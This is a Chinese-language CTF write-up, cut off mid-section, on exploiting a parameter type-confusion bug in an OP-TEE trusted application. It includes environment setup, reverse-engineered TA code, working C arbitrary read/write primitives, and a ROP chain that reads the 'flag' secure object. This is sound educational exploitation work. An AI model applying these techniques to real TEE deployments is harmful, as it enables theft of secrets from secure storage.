

# 题目信息

```text
Target system is a secure-world Trustlet running inside a TEE. The
codebase is signed, verified, and marked "production ready."
But something doesn't add up.

Your mission today, if you choose to accept it, is to do what the
auditors couldn't, wouldn't or were too lazy to do, press
F5 and find the flag.

nc trust-issues.task.sasc.tf 45454

[hints]
The flag is stored as a secure object. The id for that object is flag.

Note: for easier debugging, here's how you can connect GDB to the QEMU instance.
If you start QEMU with the -s option, a GDB server will be available at 127.0.0.1:1234.
Since ASLR is disabled, you can attach using:

gdb-multiarch -ex 'target remote 127.0.0.1:1234' -ex 'add-symbol-file 41414141-7472-7573-745f-697373756573.elf 0x117000'

This allows you to debug the Trustlet like a regular user-space application
- set breakpoints, inspect memory, and step through execution. 
```


# 环境搭建

## OP-TEE编译

参考：

* [OP-TEE Documentation](https://optee.readthedocs.io/en/4.5.0/)
* [Prerequisites](https://optee.readthedocs.io/en/4.5.0/building/prerequisites.html#prerequisites)
* [What is the quickest and easiest way to try OP-TEE?](https://optee.readthedocs.io/en/4.5.0/faq/faq.html#id25)
* [Toolchains](https://optee.readthedocs.io/en/latest/building/toolchains.html#toolchains)

使用`repo`之前要先在bash开一个http/https代理（推荐用`privoxy`把socks5转换成http/https），每一步都可能要等很久。

```bash
# python3-*的库建议用pip装
sudo apt install -y \
    adb \
    acpica-tools \
    autoconf \
    automake \
    bc \
    bison \
    build-essential \
    ccache \
    cpio \
    cscope \
    curl \
    device-tree-compiler \
    e2tools \
    expect \
    fastboot \
    flex \
    ftp-upload \
    gdisk \
    git \
    libattr1-dev \
    libcap-ng-dev \
    libfdt-dev \
    libftdi-dev \
    libglib2.0-dev \
    libgmp3-dev \
    libhidapi-dev \
    libmpc-dev \
    libncurses5-dev \
    libpixman-1-dev \
    libslirp-dev \
    libssl-dev \
    libtool \
    libusb-1.0-0-dev \
    make \
    mtools \
    netcat \
    ninja-build \
    python-is-python3 \
    rsync \
    swig \
    unzip \
    uuid-dev \
    wget \
    xdg-utils \
    xsltproc \
    xterm \
    xz-utils \
    zlib1g-dev
python3 -m pip install cryptography pyelftools python3-serial

mkdir optee && cd optee
repo init -u https://github.com/OP-TEE/manifest.git -b 4.5.0
repo sync

# make toolchain
cd build
make -f toolchain.mk -j2
export OPTEE_HOME=/path/to/SASCTF2025/TrustIssues/task/optee
export PATH=$PATH:$OPTEE_HOME/toolchains/aarch32/bin:$OPTEE_HOME/toolchains/aarch64/bin

# Build and run
make QEMU_VIRTFS_ENABLE=y QEMU_USERNET_ENABLE=y QEMU_VIRTFS_HOST_DIR=./shared_folder CFG_TA_ASLR=n "PLATFORM=*" CFLAGS="-D STAGING_BUILD" run -j16
```

环境搭建胜利结算画面（撒花：

```bash {hide=true}
* QEMU is now waiting to start the execution
* Start execution with either a 'c' followed by <enter> in the QEMU console or
* attach a debugger and continue from there.
*
* To run OP-TEE tests, use the xtest command in the 'Normal World' terminal
* Enter 'xtest -h' for help.

# Option “-x” is deprecated and might be removed in a later version of gnome-terminal.
# Use “-- ” to terminate the options and put the command line to execute after it.
# Option “-x” is deprecated and might be removed in a later version of gnome-terminal.
# Use “-- ” to terminate the options and put the command line to execute after it.
Connection to 127.0.0.1 54320 port [tcp/*] succeeded!
Connection to 127.0.0.1 54321 port [tcp/*] succeeded!
cd /patch/to/optee/build/../out/bin && /path/to/optee/build/../qemu/build/qemu-system-arm -nographic -smp 2 -d unimp -semihosting-config enable=on,target=native -m 1057 -bios bl1.bin -machine virt,secure=on -cpu cortex-a15 -object rng-random,filename=/dev/urandom,id=rng0 -device virtio-rng-pci,rng=rng0,max-bytes=1024,period=1000 -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic -fsdev local,id=fsdev0,path=./shared_folder,security_model=none -device virtio-9p-device,fsdev=fsdev0,mount_tag=host -s -S -serial tcp:127.0.0.1:54320 -serial tcp:127.0.0.1:54321
# 后面一些报错先不用管
```

### 可能遇到的问题



#### config-host.mak is out-of-date, running configure

报错：

```bash
make[1]: Entering directory '/path/to/optee/qemu'
changing dir to build for make ""...
make[2]: Entering directory '/path/to/optee/qemu/build'
config-host.mak is out-of-date, running configure
bash: line 4: ./config.status: No such file or directory
make[2]: *** No rule to make target 'config-host.mak', needed by 'meson.stamp'.  Stop.
make[2]: Leaving directory '/path/to/optee/qemu/build'
make[1]: *** [GNUmakefile:11: all] Error 2
make[1]: Leaving directory '/path/to/optee/qemu'
make: *** [Makefile:89: qemu] Error 2
```

查看`optee/qemu/build/config.log`发现一堆报错：

```bash
# QEMU configure log Sun May 25 02:51:39 AM BST 2025
# Configured with: '/path/to/optee/qemu/configure' '--target-list=arm-softmmu' '--cc=gcc' '--extra-cflags=-Wno-error' '--disable-docs' '--enable-virtfs'
#
gcc -D STAGING_BUILD -Wno-error -std=gnu11 -Wall -D_GNU_SOURCE -D_FILE_OFFSET_BITS=64 -D_LARGEFILE_SOURCE -Wstrict-prototypes -Wredundant-decls -Wundef -Wwrite-strings -Wmissing-prototypes -fno-strict-aliasing -fno-common -fwrapv -c -o config-temp/qemu-conf.o config-temp/qemu-conf.c
gcc -D STAGING_BUILD -Wno-error -std=gnu11 -Wall -D_GNU_SOURCE -D_FILE_OFFSET_BITS=64 -D_LARGEFILE_SOURCE -Wstrict-prototypes -Wredundant-decls -Wundef -Wwrite-strings -Wmissing-prototypes -fno-strict-aliasing -fno-common -fwrapv -c -o config-temp/qemu-conf.o config-temp/qemu-conf.c
config-temp/qemu-conf.c:2:2: error: #error __i386__ not defined
    2 | #error __i386__ not defined
      |  ^~~~~
gcc -D STAGING_BUILD -Wno-error -std=gnu11 -Wall -D_GNU_SOURCE -D_FILE_OFFSET_BITS=64 -D_LARGEFILE_SOURCE -Wstrict-prototypes -Wredundant-decls -Wundef -Wwrite-strings -Wmissing-prototypes -fno-strict-aliasing -fno-common -fwrapv -c -o config-temp/qemu-conf.o config-temp/qemu-conf.c
gcc -D STAGING_BUILD -Wno-error -std=gnu11 -Wall -D_GNU_SOURCE -D_FILE_OFFSET_BITS=64 -D_LARGEFILE_SOURCE -Wstrict-prototypes -Wredundant-decls -Wundef -Wwrite-strings -Wmissing-prototypes -fno-strict-aliasing -fno-common -fwrapv -c -o config-temp/qemu-conf.o config-temp/qemu-conf.c
config-temp/qemu-conf.c:2:2: error: #error __ILP32__ not defined
    2 | #error __ILP32__ not defined
      |  ^~~~~
...
gcc: fatal error: cannot execute ‘cc1obj’: execvp: No such file or directory
compilation terminated.
...
config-temp/qemu-conf.c:1:10: fatal error: xenctrl.h: No such file or directory
    1 | #include <xenctrl.h>
      |          ^~~~~~~~~~~
compilation terminated.
gcc -m64 -mcx16 -D STAGING_BUILD -Wno-error -fPIE -DPIE -std=gnu11 -Wall -D_GNU_SOURCE -D_FILE_OFFSET_BITS=64 -D_LARGEFILE_SOURCE -Wstrict-prototypes -Wredundant-decls -Wundef -Wwrite-strings -Wmissing-prototypes -fno-strict-aliasing -fno-common -fwrapv -Wold-style-declaration -Wold-style-definition -Wtype-limits -Wformat-security -Wformat-y2k -Winit-self -Wignored-qualifiers -Wempty-body -Wnested-externs -Wendif-labels -Wexpansion-to-defined -Wimplicit-fallthrough=2 -Wno-missing-include-dirs -Wno-shift-negative-value -Wno-psabi -fstack-protector-strong -o config-temp/qemu-conf.exe config-temp/qemu-conf.c -pie -Wl,-z,relro -Wl,-z,now -fstack-protector-strong -lrdmacm -libverbs -libumad
config-temp/qemu-conf.c:1:10: fatal error: rdma/rdma_cma.h: No such file or directory
    1 | #include <rdma/rdma_cma.h>
      |          ^~~~~~~~~~~~~~~~~
compilation terminated.
```

多次运行`configure`并查看`config.log`查找缺失的依赖，直到没有报错：

```bash
# pwd -> optee/build
cd /path/to/optee/qemu/build
../configure --target-list=arm-softmmu --cc=gcc --extra-cflags=-Wno-error --disable-docs --enable-virtfs
vim ./config.log
```

安装缺失的依赖：

```bash
sudo apt install gobjc gobjc++ libxen-dev librdmacm-dev libibumad-dev
```

之后再继续make就行：

```bash
cd -
make QEMU_VIRTFS_ENABLE=y QEMU_USERNET_ENABLE=y QEMU_VIRTFS_HOST_DIR=./shared_folder CFG_TA_ASLR=n "PLATFORM=*" CFLAGS="-D STAGING_BUILD" run
```

#### undefined reference to `bpf_program__set_socket_filter'

```bash
FAILED: qemu-system-arm 
c++ -m64 -mcx16 @qemu-system-arm.rsp
/usr/bin/ld: libcommon.fa.p/ebpf_ebpf_rss.c.o: in function `ebpf_rss_load':
/path/to/optee/qemu/build/../ebpf/ebpf_rss.c:52:(.text+0x189): undefined reference to `bpf_program__set_socket_filter'
collect2: error: ld returned 1 exit status
ninja: build stopped: subcommand failed.
make[2]: *** [Makefile:163: run-ninja] Error 1
make[2]: Leaving directory '/path/to/optee/qemu/build'
make[1]: *** [GNUmakefile:11: all] Error 2
make[1]: Leaving directory '/path/to/optee/qemu'
make: *** [Makefile:89: qemu] Error 2
```

`bpf_program__set_socket_filter` 是libbpf库中的一个函数，而且本地已经安装了该库，可能是版本的问题。问了一下gpt说是这个函数在`v0.6.0~v0.8.0`范围内（未查证），本地的libbpf库版本是`libbpf-dev/noble,now 1:1.3.0-2build2 amd64`，去`/usr/lib/bpf`搜了一下确实没有这个符号。但是由于libbpf对于qemu和OP-TEE都不是必须的库，要降级的话不知道又会出什么新问题，所以直接卸载了算了……

卸载libbpf-dev，重新执行configure，然后继续make即可：

```bash
sudo apt remove libbpf-dev
cd /path/to/optee/qemu/build
../configure --target-list=arm-softmmu --cc=gcc --extra-cflags=-Wno-error --disable-docs --enable-virtfs
```




## Host application编译

参考：[optee_examples](https://optee.readthedocs.io/en/latest/building/gits/optee_examples/optee_examples.html)

需要先完成上一步，编译toolchain、optee_os和optee_client得到必要的编译工具、库和头文件等，再编译exp：

```bash
# 把题目的patch先打进去
cd /path/to/SASCTF2025/TrustIssues/task/optee
git apply --directory=optee_examples ../optee_examples-trust_issues_censored.diff

# Host application
cd ./optee_examples/trust_issues/host
export OPTEE_HOME=/path/to/SASCTF2025/TrustIssues/task/optee
export PATH=$PATH:$OPTEE_HOME/toolchains/aarch32/bin:$OPTEE_HOME/toolchains/aarch64/bin
make \
    CROSS_COMPILE=arm-linux-gnueabihf- \
    TEEC_EXPORT=$OPTEE_HOME/optee_client/out/export/usr \
    --no-builtin-variables
cp ./sas_ta_exploitation_exploit /path/to/SASCTF2025/TrustIssues/task/shared_folder
```

> [!note]
>
> 附一个TA的编译过程，解题过程中不需要，因为无法加载自己编译的没有签名的TA：
>
> ```bash
> # Trusted Application
> cd ./optee_examples/trust_issues/ta
> export OPTEE_HOME=/path/to/SASCTF2025/TrustIssues/task/optee
> export PATH=$PATH:$OPTEE_HOME/toolchains/aarch32/bin:$OPTEE_HOME/toolchains/aarch64/bin
> make \
>     CROSS_COMPILE=arm-linux-gnueabihf- \
>     PLATFORM=vexpress-qemu_virt \
>     TA_DEV_KIT_DIR=$OPTEE_HOME/optee_os/out/arm/export-ta_arm32
> # With this you end up with a files named uuid.{ta,elf,dmp,map} etc in the ta folder where you did the build.
> ```


## 本地调试

需要开4个bash，先开bash1、2监听，而后开bash3运行qemu，最后在bash4用gdb remote上去。

bash1：normal world

```bash
cd /path/to/SASCTF2025/TrustIssues/task/optee/build
python3 ./soc_term.py 54320
```

bash2：secure world

```bash
cd /path/to/SASCTF2025/TrustIssues/task/optee/build
python3 ./soc_term.py 54321
```

bash3：qemu monitor

```bash
cd /path/to/SASCTF2025/TrustIssues/task/bin
mkdir ../shared_folder # 共享文件夹，注意改qemu对应参数
cp /path/to/SASCTF2025/TrustIssues/task/optee/

../qemu-system-arm -nographic -smp 2 -d unimp \
    -semihosting-config enable=on,target=native \
    -m 1057 -bios bl1.bin -machine virt,secure=on \
    -cpu cortex-a15 -object rng-random,filename=/dev/urandom,id=rng0 \
    -device virtio-rng-pci,rng=rng0,max-bytes=1024,period=1000 \
    -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic \
    -fsdev local,id=fsdev0,path=../shared_folder,security_model=none \
    -device virtio-9p-device,fsdev=fsdev0,mount_tag=host \
    -monitor null -s -S -serial tcp:127.0.0.1:54320 -serial tcp:127.0.0.1:54321
```

bash4：gdb

```bash
gdb-multiarch -ex 'target remote :1234' -ex 'add-symbol-file 41414141-7472-7573-745f-697373756573.elf 0x117000'
```

qemu运行起来之后，可以在bash1中挂载共享文件夹，运行exp：

```bash
# Mount the shared folder
mkdir -p /mnt/host && mount -t 9p -o trans=virtio host /mnt/host
# Now run your exploit
/mnt/host/sas_ta_exploitation_exploit
```

> [!tips]
>
> gef对于内核调试的支持比pwngdb更好一些，附一个专为内核调试魔改版的gef，对OP-TEE的支持方面也进行了一些优化：[bata24/gef: GEF - GDB Enhanced Features for exploit devs & reversers](https://github.com/bata24/gef)

# 题目分析

参考：[Trusted Applications](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#build-trusted-applications)

`trust_issues\ta\include\trust_issues_ta.h`头文件中给出了3个fid：

```c
/* The function IDs implemented in this TA */
#define TA_TRUST_ISSUES_CMD_RUN_CODE 0
#define TA_TRUST_ISSUES_CMD_WRITE_SECURE_OBJECT 1
#define TA_TRUST_ISSUES_CMD_READ_SECURE_OBJECT 2
```

但是逆向发现只实现了前两个：

```c {hide=true}
TEE_Result __cdecl _GP11_TA_InvokeCommandEntryPoint(
        void *sess_ctx,
        uint32_t cmd_id,
        uint32_t param_types,
        __GP11_TEE_Param *params)
{
  TEE_Result result; // r0

  trace_printf("__GP11_TA_InvokeCommandEntryPoint", 363, 2, 1, "Received command: %u", cmd_id);
  if ( cmd_id )
  {
    if ( cmd_id == 1 )
      write_secure_object_cmd(param_types, params);
  }
  else
  {
    run_code_cmd(param_types, params);
  }
  __asm { POP             {R7,PC} }
  return result;
}
```

其中`write_secure_object_cmd`功能是根据用户参数创建一个secure_object，`_GP11_TEE_MemMove`最终调用`memmove`，`_GP11_TEE_Malloc(xxx, 0)`最终调用`calloc`：

```c {hide=true}
TEE_Result __cdecl write_secure_object_cmd(uint32_t param_types, __GP11_TEE_Param *params)
{
  int v2; // lr
  TEE_Result result; // r0
  TEE_ObjectHandle object; // [sp+1Ch] [bp+4h] BYREF
  uint32_t exp_param_types; // [sp+20h] [bp+8h]
  size_t obj_id_sz; // [sp+24h] [bp+Ch]
  char *obj_id; // [sp+28h] [bp+10h]
  size_t data_sz; // [sp+2Ch] [bp+14h]
  char *data; // [sp+30h] [bp+18h]
  uint32_t obj_data_flag; // [sp+34h] [bp+1Ch]
  TEE_Result res; // [sp+38h] [bp+20h]
  int v13; // [sp+44h] [bp+2Ch]

  v13 = v2;
  exp_param_types = 0x55;
  if ( param_types == 0x55 )
  {
    obj_id_sz = params->memref.size;
    obj_id = (char *)_GP11_TEE_Malloc(obj_id_sz, 0); // calloc
    if ( obj_id )
    {
      _GP11_TEE_MemMove(obj_id, params->memref.buffer, obj_id_sz); // memmove
      data_sz = params[1].memref.size;
      data = (char *)_GP11_TEE_Malloc(data_sz, 0); // calloc
      if ( data )
      {
        _GP11_TEE_MemMove(data, params[1].memref.buffer, data_sz); // memmove
        obj_data_flag = 0x407u;
        res = _GP11_TEE_CreatePersistentObject(1u, obj_id, obj_id_sz, 0x407u, 0, 0, 0, &object);
        if ( res )
        {
          trace_printf("write_secure_object_cmd", 236, 1, 1, "TEE_CreatePersistentObject failed 0x%08x", res);
          TEE_Free(obj_id);
          TEE_Free(data);
        }
        else
        {
          res = _GP11_TEE_WriteObjectData(object, data, data_sz);
          if ( res )
          {
            trace_printf("write_secure_object_cmd", 244, 1, 1, "TEE_WriteObjectData failed 0x%08x", res);
            TEE_CloseAndDeletePersistentObject1(object);
          }
          else
          {
            TEE_CloseObject(object);
          }
          TEE_Free(obj_id);
          TEE_Free(data);
        }
      }
    }
  }
  __asm { POP             {R7,PC} }
  return result;
}
```

`run_code_cmd`功能是执行用户给定的代码：

```c {hide=true}
TEE_Result __cdecl run_code_cmd(uint32_t param_types, __GP11_TEE_Param *params)
{
  int v2; // lr
  TEE_Result result; // r0
  __GP11_TEE_Param code; // [sp+1Ch] [bp+4h]
  __GP11_TEE_Param input; // [sp+24h] [bp+Ch]
  __GP11_TEE_Param output; // [sp+2Ch] [bp+14h]
  char *memory; // [sp+34h] [bp+1Ch]
  VmContext_t context; // [sp+38h] [bp+20h] BYREF
  int v9; // [sp+6Ch] [bp+54h]

  v9 = v2;
  code = *params;
  input = params[1];
  output = params[2];
  trace_printf("run_code_cmd", 0xA6, 2, 1, "Code ptr: %p, code size: %zu", params->memref.buffer, params->memref.size);
  trace_printf("run_code_cmd", 0xA7, 2, 1, "Input ptr: %p, input size: %zu", input.memref.buffer, input.memref.size);
  trace_printf("run_code_cmd", 0xA8, 2, 1, "Output ptr: %p, output size: %zu", output.memref.buffer, output.memref.size);
  memory = (char *)_GP11_TEE_Malloc(0x4000u, 0);
  if ( memory )
  {
    *(__GP11_TEE_Param *)&context.code = code;
    context.input = (char *)input.memref.buffer;
    context.input_idx = 0;
    context.input_sz = input.memref.size;
    context.output = (char *)output.memref.buffer;
    context.output_idx = 0;
    context.output_sz = output.memref.size;
    context.memory = memory;
    context.memory_idx = 0;
    context.memory_sz = 0x4000;
    run_code(&context);
  }
  __asm { POP             {R7,PC} }
  return result;
}
```

代码逻辑如下：

1. `+`：`mem[mem_idx]++`
2. `-`：`mem[mem_idx]--`
3. `>`：`mem_idx++`
4. `<`：`mem_idx--`
5. `,`：`mem[mem_idx++] = in[in_idx++]`
6. `.`：`out[out_idx++] = mem[mem_idx++]`

## 越界读（没用到）

vm执行code的时候有`validate_memory_bounds`函数检查是否越界，但是当输入的`input_size/output_size`大于`input/output`实际大小的时候还是可以造成越界的。

写了个poc验证了一下，确实可以越界：

```c {hide=true}
    char *code = (char *)calloc(0x100, sizeof(char));
    for (size_t i = 0; i < 0x40; i++) {
        code[i] = ',';
    }
    for (size_t i = 0x40; i < 0x60; i++) {
        code[i] = '<';
    }
    for (size_t i = 0x60; i < 0x80; i++) {
        code[i] = '.';
    }
    char input[0x20] = { 0, };
    char output[0x20] = { 0, };
    run_code(&sess, code, strlen(code), input, 0x100, output, 0x100);
    hex_dump(output, 0x20);
```

结果：

```bash {hide=true}
# /mnt/host/sas_ta_exploitation_exploit 
[+] run_code_cmd: done!
0x00000004 0x41414141 0x75737472 0x73695f74
0x73657573 0x7ea4ec8c 0x00000002 0x00000003
```


## 参数类型混淆

参考：

* [文档](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)
* [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf)

此外，OP-TEE的[文档](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)中提到，如果缺少对预期参数类型的验证可能会造成任意读写漏洞：

> [Checking TA parameters](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)：
>
> Missing verification of expected parameter types may expose arbitrary read-and-write exploit primitives within the affected Trusted Application (TA), potentially leading to partial control over the TEE in the worst-case scenario. For more information, please refer to the [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf) paper, which provides detailed insights into this issue.
>
> 缺少对预期参数类型的验证可能会暴露受影响的可信应用程序（TA）中的任意读写漏洞基元，在最坏的情况下可能导致对TEE的部分控制。有关更多信息，请参阅GlobalConfusion论文，该论文提供了对此问题的详细见解。
>
> [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf)：
>
> Assuming an adversary notices the missing type check in any of the commands of any TA (usually there are many commands), it can have severe consequences as we can learn from our example echo-TA. In this case, an attacker can invoke the TA_ECHO_CMD_ECHO command and provide the type information used for any of the two used parameters to indicate a value type. Since the TA does not check its parameter types, but still interprets them as memref types, the attacker provided a and b values overlap with the buffer and size fields (in the 32-bit case) and, thus, the attacker has control over the two pointers within the virtual address space of the TA that can be read from or written to. 
>
> 假设对手注意到任何TA的任何命令中缺少类型检查（通常有许多命令），这可能会产生严重的后果，正如我们从示例回声TA中了解到的那样。在这种情况下，攻击者可以调用TA_ECHO_CMD_ECHO命令，并提供用于指示值类型的两个使用参数中的任何一个为value类型。由于TA不检查其参数类型，但仍将其解释为memref类型，攻击者提供的a和b值与缓冲区和大小字段重叠（在32位的情况下），因此，攻击者可以控制TA虚拟地址空间内可以读取或写入的两个指针。

`run_code_cmd`功能中确实没有对参数类型作校验，也就是说存在类型混淆漏洞。具体各种参数类型的区别见`OP-TEE CA&TA交互的参数类型`一节。

因此，我们可以直接将`input`参数声明为`TEEC_VALUE`类型传入已知地址指针，而TA会将该指针作为`TEEC_MEMREF_*`的`buffer`处理，从而实现任意地址读写。

任意地址读写demo：

```c {hide=true}
void run_code(TEEC_Session *p_sess, TEEC_Operation *op) {
    TEEC_Result res;
    uint32_t err_origin;

    res = TEEC_InvokeCommand(p_sess, TA_TRUST_ISSUES_CMD_RUN_CODE, op,
                 &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
            res, err_origin);
    printf("[+] run_code_cmd: done!\n");
}

void abread(TEEC_Session *p_sess, uint32_t tgt, void *buf, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_VALUE_INOUT,
                     TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].value.a = tgt;
    op.params[1].value.b = size+1;
    op.params[2].tmpref.buffer = buf;
    op.params[2].tmpref.size = size+1;

    run_code(p_sess, &op);

    free(code);
}

void abwrite(TEEC_Session *p_sess, uint32_t tgt, void *src, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INOUT,
                     TEEC_VALUE_INOUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].tmpref.buffer = src;
    op.params[1].tmpref.size = size+1;
    op.params[2].value.a = tgt;
    op.params[2].value.b = (uint32_t)(size+1);

    run_code(p_sess, &op);

    free(code);
}
```

由于没有开启aslr，ta的加载地址和栈地址等是固定的，通过54321端口的log报错信息可以看到地址映射，程序基址映射到`0x00117000`，栈映射到`0x0014a000`，CA传入的参数映射到`0x00200000`和`0x00201000`：

```bash
E/LD:  region  0: va 0x00103000 pa 0x0e225000 size 0x002000 flags rw-s (ldelf)
E/LD:  region  1: va 0x00105000 pa 0x0e227000 size 0x00c000 flags r-xs (ldelf)
E/LD:  region  2: va 0x00111000 pa 0x0e233000 size 0x001000 flags rw-s (ldelf)
E/LD:  region  3: va 0x00112000 pa 0x0e234000 size 0x004000 flags rw-s (ldelf)
E/LD:  region  4: va 0x00116000 pa 0x0e238000 size 0x001000 flags r--s
E/LD:  region  5: va 0x00117000 pa 0x0e239000 size 0x01f000 flags r-xs [0]
E/LD:  region  6: va 0x00136000 pa 0x0e258000 size 0x014000 flags rw-s [0]
E/LD:  region  7: va 0x0014a000 pa 0x0e26c000 size 0x003000 flags rw-s (stack)
E/LD:  region  8: va 0x00200000 pa 0x40da0860 size 0x001000 flags rw-- (param)
E/LD:  region  9: va 0x00201000 pa 0x7fc42010 size 0x001000 flags rw-- (param)
```

~~覆盖`run_code`函数的返回地址`0x0014c5f4`~~（这里不能用`run_code`的返回地址，因为往下会覆盖到`context`导致rop被截断），因此我们`run_code_cmd`的返回地址`0x14c664`进行ROP。

根据hint，flag存在id为flag的secure object中，但是该结构存于SW无法直接通过NW去访问。所以我们要在ROP中调用`OpenPersistentObjectWrapper`和`TEE_ReadObjectDat`将flag的secure object读入CA传入的参数映射区域，就能通过本地的变量读到flag。

> [!caution]
>
> 由于我们需要把flag传回CA，故将flag读入input的缓冲区，也就是传ROP的buffer，故input的参数类型需要设置为`TEEC_MEMREF_TEMP_INOUT`。

## ROP

最终ROP如下：

```c
    uint32_t ret_addr = 0x14c664; //0x0014c5f4;
    uint32_t gadget = 0x00118F84; // POP {R0-R3}; POP {R12,PC}
    uint32_t OpenPersistentObjectWrapper = 0x00117618;
    uint32_t TEE_ReadObjectData = 0x0011C95C;
    uint32_t buf = 0x14c800;
    uint32_t input_addr = 0x200860;
    uint32_t rop[0x100] = { 0, };

    size_t i = 0;
    rop[i++] = gadget;
    rop[i++] = ret_addr+9*4;    // r0: TEE_ObjectHandle *object
    rop[i++] = buf;             // r1: const char *obj_id = "flag"
    rop[i++] = 4;               // r2: size_t obj_id_sz
    rop[i++] = 1;               // r3: uint32_t obj_data_flag = TEE_DATA_FLAG_ACCESS_READ
    rop[i++] = 0;               // r12
    rop[i++] = OpenPersistentObjectWrapper+4+1;
    rop[i++] = 0xdeadbeef;      // r7

    rop[i++] = gadget;
    rop[i++] = 0;               // r0: TEE_ObjectHandle object
    rop[i++] = input_addr;      // r1: void *buffer
    rop[i++] = 0x40;            // r2: uint32_t size
    rop[i++] = buf + 8;         // r3: uint32_t *count
    rop[i++] = 0;               // r12
    rop[i++] = TEE_ReadObjectData+8+1;
    rop[i++] = 0xdeadbeef;      // r7

    //memset((char *)&rop[i], '\xaa', (0x100-i)*4);
    memcpy((char *)&rop[0x67], "flag\x00", 5); // buf
    abwrite(&sess, ret_addr, rop, 0x100*4);
    //hex_dump(rop, 0x100);
    puts((char *)rop);
```

在ROP过程中可能会遇到几个问题：

### ROP起始地址

一是上一节提到的，如果覆盖`run_code`函数的返回地址`0x0014c5f4`，ROP往下会覆盖到`context`导致rop被截断，因此我们选择覆盖`run_code_cmd`的返回地址`0x14c664`。

### gadget查找

二是用ROPgadget的时候遇到了符号缺失报错。具体参考[Issue 208# Replace CS_ARCH_ARM64 with CS_ARCH_AARCH64](https://github.com/JonathanSalwan/ROPgadget/pull/208)，由于最新的capstone 6.0 alpha版本将几个宏定义名称进行了修改，所以如果更新pwntools时连带将capstone更新到了6.0以上的非stable版本，就会导致ROPgadget在查找arm/aarch64架构指令时报错`NameError: name 'CS_ARCH_ARM64' is not defined`。

解决方法最简单的就是capstone降版本为5.0.3或5.0.6：

```bash
python3 -m pip install --upgrade capstone==5.0.3
```

> capstone 5.0的最新版本是5.0.6，但是由于还安装了angr，最高依赖capstone 5.0.3，所以这里多降了一个版本。
>
> ```bash
> ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.
> angr 9.2.159 requires capstone==5.0.3, but you have capstone 5.0.6 which is incompatible.
> Successfully installed ROPgadget-7.6 capstone-5.0.6
> ```

要是不想降级capstone，还可以**直接在IDA汇编窗口全局搜`POP`字符串找gadget**……

### ROP中的函数调用

三是函数调用问题。函数开头会用一个或多个`STRD.W`保存现场，并将`LR`寄存器中的返回地址入栈；函数结尾会用`LDRD.W`恢复现场，并将栈上返回地址弹回`PC`：

```asm
.text:0011C95C                 STRD.W          R4, R5, [SP,#var_10]!
.text:0011C960                 STRD.W          R7, LR, [SP,#0x10+var_8]
.text:0011C964                 SUB             SP, SP, #0x28
.text:0011C966                 ADD             R7, SP, #0
...
.text:0011CA08                 ADD.W           R7, R7, #0x28 ; '('
.text:0011CA0C                 MOV             SP, R7
.text:0011CA0E                 LDRD.W          R4, R5, [SP,#arg_0]
